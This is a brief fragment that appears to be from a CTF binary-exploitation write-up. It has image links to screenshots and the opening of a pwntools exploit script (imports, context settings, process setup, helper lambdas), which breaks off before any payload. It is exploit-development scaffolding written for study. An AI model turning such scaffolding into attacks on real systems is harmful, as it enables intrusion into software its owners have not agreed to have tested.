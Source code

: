 [![](assets/1698893341-c8e366e00de5292c6656b5eb29388803.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121932-dd2661bc-73b6-1.png)

[![](assets/1698893341-f116ab9480ec76b68424d3ff31ed0996.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121936-df4df284-73b6-1.png)

[![](assets/1698893341-a10a02f43ac3c38de851181ab6a14032.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121939-e1430d2c-73b6-1.png)

[![](assets/1698893341-6021a435a03f5817a714d2e062960381.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121945-e516c92a-73b6-1.png)

‍

###### exp：

```bash
# encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time
import base64

context.os = 'linux'
context.arch = 'amd64'
# context.arch = 'i386'
context.log_level = "debug"

name = './pwn'
ldfile = './ld-linux-x86-64.so.2'
libcso = './libc.so.6'
libc = ELF(libcso)
elf = ELF(name)

debug = 0
if debug:
    p = remote('127.0.0.1',8000)
else:
    #p = process([ldfile, name], env={"LD_PRELOAD": libcso})
    p = process(name)

s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
```